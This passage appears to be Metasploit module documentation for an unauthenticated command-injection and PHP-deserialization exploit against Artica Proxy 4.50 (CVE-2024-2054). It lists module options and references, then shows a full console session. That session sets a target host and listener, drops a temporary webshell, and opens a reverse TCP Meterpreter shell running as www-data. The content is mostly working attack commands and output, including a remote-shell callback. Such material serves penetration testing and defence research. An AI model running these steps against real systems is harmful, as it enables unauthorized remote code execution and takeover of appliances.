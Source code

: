 ```shell
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on t
                                      he local machine or 0.0.0.0 to listen on all addresses.
  SRVPORT  1981             yes       The local port to listen on.


  When TARGET is not 0:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  COMMAND  passthru         yes       Use PHP command function (Accepted: passthru, shell_exec, system, exec)

Payload information:

Description:
  A Command Injection vulnerability in Artica Proxy appliance 4.50 and below allows
  remote attackers to run arbitrary commands via unauthenticated HTTP request.
  The Artica Proxy administrative web application will deserialize arbitrary PHP objects
  supplied by unauthenticated users and subsequently enable code execution as the "www-data" user.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2024-2054
  https://attackerkb.com/topics/q1JUcEJjXZ/cve-2024-2054
  https://packetstormsecurity.com/files/177482


View the full module info with the info -d command.
```

### Target 0 - PHP native `php/meterpreter/reverse_tcp` session
```shell
msf6 exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > set webshell cuckoo
webshell => cuckoo
msf6 exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > set target 0
target => 0
msf6 exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > set rhosts 192.168.201.4
rhosts => 192.168.201.4
msf6 exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.4:9000 can be exploited.
[+] The target is vulnerable. Artica version: 4.50
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.4
[+] Deleted /usr/share/artica-postfix/wizard/cuckoo.php
[*] Meterpreter session 15 opened (192.168.201.8:4444 -> 192.168.201.4:33986) at 2024-03-15 17:46:04 +0000

meterpreter > sysinfo
Computer    : artica-applianc
OS          : Linux artica-applianc 4.19.0-24-amd64 #1 SMP Debian 4.19.282-1 (2023-04-29) x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data
meterpreter >
```
### Target 1 - Unix Command `cmd/unix/reverse_bash` session
```shell
```